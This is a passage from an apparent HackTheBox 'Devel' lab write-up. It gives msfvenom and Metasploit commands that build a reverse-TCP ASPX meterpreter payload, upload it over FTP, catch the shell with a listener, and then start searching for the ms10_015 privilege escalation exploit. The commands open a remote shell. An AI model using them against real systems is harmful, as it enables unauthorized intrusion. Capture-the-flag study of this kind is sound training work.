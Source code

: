 ### 2.4 Reverse Shell with Metasploit

We generate a reverse ASPX payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=443 -f aspx -a x86 > reverse.aspx
```

Upload the file via FTP:

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/metasploit_aspx_webshell.png)

Set up a listener with Metasploit:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.2
set lport 443
run
```

Trigger the reverse shell by browsing to the uploaded payload:

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/webshell_url.png)

Shell obtained:

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/shell_obtained.png)

Verify:

```bash
sysinfo
whoami /priv
```

![](GitHubv2/HackTheBox/EASY/Devel/screenshots/shell_info.png)

---
## 3. Privilege Escalation

We background the session:

```bash
exit
background
```

Search for privilege escalation exploits:

```bash
search exploit/windows/local/ms10_015
```
